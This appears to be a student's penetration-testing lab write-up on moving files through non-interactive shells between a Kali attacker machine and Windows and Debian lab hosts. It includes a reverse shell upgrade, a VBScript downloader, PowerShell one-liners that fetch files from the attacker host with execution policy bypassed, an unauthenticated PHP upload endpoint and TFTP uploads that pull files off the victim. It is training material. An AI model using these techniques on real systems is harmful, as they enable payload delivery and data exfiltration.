

Exercises

# 16.1.3.2

# 16.1.3.2.1. Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.

On the Debian client terminal, here is the interactive session that uses the ftp client


# 16.1.3.2.2. Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.

From Kali, netcat into the Debian client and ftp back into the Kali server. We see it is non-interactive. Then, netcat into the Debian client again and upgrade to an interactive shell using Python. Try to ftp back into the Kali box and we see it's interactive.



# 16.1.3.2.3. Research alternatives methods to upgrade a non-interactive shell.
https://gtfobins.github.io/#+non-interactive%20reverse%20shell


# 16.2.5.1 
## 16.2.5.1.1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.

Here is a VBScript script (wget.vbs) on the Windows client that acts as a simple HTTP downloader
```vbscript
strUrl = WScript.Arguments.Item(0) 
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
Err.Clear 
Set http = Nothing 
Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
http.Open "GET", strURL, False 
http.Send 
varByteArray = http.ResponseBody 
Set http = Nothing 
Set fs = CreateObject("Scripting.FileSystemObject") 
Set ts = fs.CreateTextFile(StrFile, True) 
strData = "" 
strBuffer = "" 
For lngCounter = 0 to UBound(varByteArray) 
ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
Next 
ts.Close 
```

Next we will run it using cscript. It will download the evil.txt file from Kali's web document root.
```
C:\Users\Administrator\Desktop>cscript wget.vbs http://192.168.119.214/evil.txt evil.txt                        
Microsoft (R) Windows Script Host Version 5.812                              
Copyright (C) Microsoft Corporation. All rights reserved.                    C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa                                                                                                                                      C:\Users\Administrator\Desktop> 
```


## 16.2.5.1.2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.

### Non-interactive file transfer from Kali to Windows
First, allow PowerShell scripts to run (it is restricted by default).
```plaintext
C:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
```

Download the evil.txt file from Kali to Windows.
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'evil.exe') 
```

OR we can execute the script without saving it to disk!
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'new-exploit.txt')                                                           C:\Users\Administrator\Desktop>more new-exploit.txt                          Muhahhahahaahahhahaa
```

### Download from  Windows to Kali (or upload from Windows to Kali)
On Kali, create a powershell script and save it to /var/www/html. This script allows anyone that interacts with upload.php to upload files to /var/www/uploads directory.
```plaintext
kali@kali:~$ cat /var/www/html/upload.php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
kali@kali:~$
```

Then, create an uploads folder, modify its permissions so that user www-data can write to it.
```plaintext
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ dir
html  uploads
kali@kali:/var/www$ ls
html  uploads
kali@kali:/var/www$ ps -ef | grep apache
root        5395       1  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    5396    5395  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Oct  1 04:26 .
drwxr-xr-x 12 root     root     4096 May  8 08:18 ..
drwxr-xr-x  3 root     root     4096 Oct  1 04:25 html
drwxr-xr-x  2 www-data www-data 4096 Oct  1 04:26 uploads
```

On Windows, run powershell to upload the file important.txt to Kali
```
C:\Users\Administrator\Desktop>powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.214/upload.php', 'important.txt')  
```

We see that important.txt has been downloaded to Kali!
```
kali@kali:/var/www/uploads$ cat /var/www/uploads/important.txt 
Nothing important to see here.
```


## 16.2.5.1.3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet *Invoke-WebRequest* 403 was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

### Download a file from Kali
```plaintext
C:\Users\Administrator\Desktop>powershell (Invoke-WebRequest -Uri "http://192.168.119.214/evil.txt" -OutFile "evil.txt")                       
C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa 
```

### Upload a file to Kali
Didn't do this


## 16.2.5.1.4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows.

On Kali, install atftp, create a directory where it can store and serve files, update the ownership so we can write files to it, then run it as a daemon on UDP port 69.
```plaintext
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

On Windows, use the tftp -i comand
```plaintext
C:\Users\Administrator\Desktop>tftp -i 192.168.119.214 put tryharder.txt     Transfer successful: 10 bytes in 1 second(s), 10 bytes/s  
```

Confirm that the file was downloaded to Kali
```plaintext
kali@kali:/tftp$ ls -la tryharder.txt 
-rw-r--r-- 1 nobody nogroup 10 Oct  1 06:40 tryharder.txt
kali@kali:/tftp$ 
```


